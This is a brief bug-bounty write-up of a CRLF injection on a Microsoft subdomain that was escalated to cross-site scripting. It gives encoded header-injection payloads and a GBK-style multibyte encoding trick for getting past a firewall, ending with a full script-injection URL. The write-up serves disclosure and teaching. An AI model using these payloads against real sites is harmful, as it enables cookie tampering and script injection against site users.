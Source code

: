 # ***$6000 with Microsoft Hall of Fame ⚔️***

*1. Let’s test for the most ignored vulnerability CRLF INJECTION*
<br>&nbsp;

*2. I tried with some different payloads, but I was only getting “400 Bad Request”*
```
%0D%0A%20Set-Cookie:whoami=thecyberneh
%20%0D%0ASet-Cookie:whoami=thecyberneh
%0A%20Set-Cookie:whoami=thecyberneh
%2F%2E%2E%0D%0ASet-Cookie:whoami=thecyberneh
```
&nbsp;

*3. I did little research and got some unique encoding called “GBK encoding”. so after URL encoding, I crafted and tried a new payload like this:*
```
https://subDomain.microsoft.com/%E5%98%8D%E5%98%8ASet-Cookie:crlfinjection=thecyberneh
```
*And Boom!!!* <br>
![20230324-1.png](../images/20230324-1.png)
<br>&nbsp;

*4. CRLF TO XSS with Firewall Bypass*
```
ENCODING
“<” --> 嘼 --> %E5%98%BC
“>” --> 嘾 --> %E5%98%BE
https://subDomain.microsoft.com/%E5%98%8D%E5%98%8ASet-Cookie:whoami=thecyberneh%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%BCscript%E5%98%BEalert(1);%E5%98%BC/script%E5%98%BE
```
![20230324-2.png](../images/20230324-2.png)
&nbsp;

----
## ***Credit***
Based on [Neh Patel](https://infosecwriteups.com/6000-with-microsoft-hall-of-fame-microsoft-firewall-bypass-crlf-to-xss-microsoft-bug-bounty-8f6615c47922)'s writeup.

----
## ***Support***
You can Follow [me](https://www.linkedin.com/in/bhavesh-pardhi-/) on LinkedIn or
<br><br>[![Buy Me a Coffee](https://img.shields.io/badge/Buy%20Me%20a%20Coffee-Support-orange?style=for-the-badge&logo=buy-me-a-coffee)](https://www.buymeacoffee.com/bhaveshpardhi)